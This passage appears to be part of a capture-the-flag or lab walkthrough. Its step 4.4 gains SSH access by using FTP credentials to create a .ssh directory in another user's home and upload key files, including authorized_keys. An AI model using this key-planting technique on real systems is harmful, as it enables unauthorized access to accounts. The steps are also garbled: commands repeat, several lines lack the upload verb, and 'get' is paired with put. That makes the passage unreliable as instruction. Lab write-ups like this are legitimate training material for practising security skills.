

4.4 Get privilege user
You need to connect via SSH. You have “luther” credentials and you have permission to write on his directory.
1. On your Kali Machine go to “~/.ssh” directory.
2. On your FTP connection go to “hubert” dir and create a directory called “.ssh”.
ftp>cd hubert
ftp>mkdir .ssh
ftp>cd .ssh
ftp>mkdir .ssh
ftp>cd .ssh
3. Get the “priv_key, id_rsa.pub and authorized_keys” files.
ftp>put priv_key
ftp>id_rsa.pub
ftp>authorized_keys
ftp>id_rsa.pub
ftp>authorized_keys
4. List the files.
ftp>ls -al
Output:
